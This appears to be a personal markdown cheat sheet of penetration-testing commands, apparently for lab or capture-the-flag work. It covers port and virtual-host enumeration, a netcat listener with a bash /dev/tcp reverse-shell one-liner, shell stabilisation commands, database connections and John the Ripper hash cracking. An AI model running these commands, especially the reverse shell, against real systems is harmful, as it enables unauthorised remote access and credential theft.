 # Snippets
Contains handy commands and code snippets for use...

## Enumeration
###  Nmap Scanning
```
# Add -p- for all 65535 ports
sudo nmap -sS -sV -sC -oA nmap/<filename> $IP
```

### GoBuster

#### Iterate over directories
```
gobuster dir -u http://$IP/ -o gobust.out -w {wordlist}
```

#### VHost Discovery
```
gobuster vhost -w ../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$DOMAIN
```

### Ffuf
#### Fuzziing for VHosts
```
./ffuf -w ../SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://$IP/ -H 'Host: FUZZ.$DOMAIN' -ms 0
```

## Get source for URL

```
CRTL + U
```

## Shells/Access
### Target callback for reverse shell
- See revshells in [tools.md](tools.md)
```bash
# in seperate terminals
nc -nvlp 9999
bash -c "bash -i >& /dev/tcp/<host ip>/<host port> 0>&1"
```
### Stabilise a reverse shell
```bash
# examples below to run on target
python -c "import pty; pty.spawn('/bin/bash')"
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash'"
# now ctrl+z it
# back on host machine run
stty raw -echo && fg
# enter, enter, now you're back in the shell, last step below to be able to ctrl+c, clear etc.
export TERM=xterm
```

## Databases
### MySQL

#### Connect to database

```
mysql -h $IP -u $USER
```

### Redis
#### Connect
```
redis-cli -h $IP
```

#### List databases
```
info keyspace
```

#### Get value for key
```
get <key>
```

## Password/Hash Cracking
### John The Ripper
```bash
./john --single <hash file in format user:hash>.txt
```
